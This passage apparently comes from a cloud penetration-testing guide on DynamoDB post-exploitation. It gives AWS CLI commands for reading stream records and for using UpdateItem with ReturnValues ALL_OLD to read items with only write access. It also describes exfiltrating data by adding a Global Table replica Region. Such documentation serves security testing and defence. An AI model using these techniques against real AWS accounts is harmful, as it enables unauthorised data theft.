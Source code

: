 3. Get the shard iterator using the stream ARN:

```bash
aws dynamodbstreams get-shard-iterator \
    --stream-arn <stream_arn> \
    --shard-id <shard_id> \
    --shard-iterator-type LATEST \
    --region <region>
```

4. Use the shard iterator to access and exfiltrate data from the stream:

```bash
aws dynamodbstreams get-records \
    --shard-iterator <shard_iterator> \
    --region <region>
```

**Potential impact**: Real-time monitoring and data leakage of the DynamoDB table's changes.

### Read items via `dynamodb:UpdateItem` and `ReturnValues=ALL_OLD`

An attacker with only `dynamodb:UpdateItem` on a table can read items without any of the usual read permissions (`GetItem`/`Query`/`Scan`) by performing a benign update and requesting `--return-values ALL_OLD`. DynamoDB will return the full pre-update image of the item in the `Attributes` field of the response (this does not consume RCUs).

- Minimum permissions: `dynamodb:UpdateItem` on the target table/key.
- Prerequisites: You must know the item's primary key.

Example (adds a harmless attribute and exfiltrates the previous item in the response):

```bash
aws dynamodb update-item \
  --table-name <TargetTable> \
  --key '{"<PKName>":{"S":"<PKValue>"}}' \
  --update-expression 'SET #m = :v' \
  --expression-attribute-names '{"#m":"exfil_marker"}' \
  --expression-attribute-values '{":v":{"S":"1"}}' \
  --return-values ALL_OLD \
  --region <region>
```

The CLI response will include an `Attributes` block containing the complete previous item (all attributes), effectively providing a read primitive from write-only access.

**Potential Impact:** Read arbitrary items from a table with only write permissions, enabling sensitive data exfiltration when primary keys are known.

### `dynamodb:UpdateTable (replica-updates)` | `dynamodb:CreateTableReplica`

Stealth exfiltration by adding a new replica Region to a DynamoDB Global Table (version 2019.11.21). If a principal can add a regional replica, the whole table is replicated to the attacker-chosen Region, from which the attacker can read all items.
